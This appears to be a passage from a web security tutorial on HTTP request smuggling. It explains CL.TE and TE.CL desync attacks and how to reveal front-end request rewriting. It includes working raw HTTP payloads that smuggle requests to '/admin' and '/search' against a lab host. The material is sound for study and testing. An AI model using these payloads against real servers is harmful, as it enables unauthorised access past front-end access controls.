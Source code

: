 In the CL.TE attack, the `Content-Length` header is leveraged for the initial request, while the subsequent embedded request utilizes the `Transfer-Encoding: chunked` header. The front-end proxy processes the initial `POST` request but fails to inspect the embedded `GET /admin` request, allowing unauthorized access to the `/admin` path.

**TE.CL Example**

Copy

```
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 4
Transfer-Encoding: chunked
2b
GET /admin HTTP/1.1
Host: localhost
a=x
0
```

Conversely, in the TE.CL attack, the initial `POST` request uses `Transfer-Encoding: chunked`, and the subsequent embedded request is processed based on the `Content-Length` header. Similar to the CL.TE attack, the front-end proxy overlooks the smuggled `GET /admin` request, inadvertently granting access to the restricted `/admin` path.


#### Revealing front-end request rewriting 

Applications often employ a **front-end server** to modify incoming requests before passing them to the back-end server. A typical modification involves adding headers, such as `X-Forwarded-For: <IP of the client>`, to relay the client's IP to the back-end. Understanding these modifications can be crucial, as it might reveal ways to **bypass protections** or **uncover concealed information or endpoints**.

To investigate how a proxy alters a request, locate a POST parameter that the back-end echoes in the response. Then, craft a request, using this parameter last, similar to the following:



```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Connection: keep-alive
Transfer-Encoding: chunked

0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

search=
```
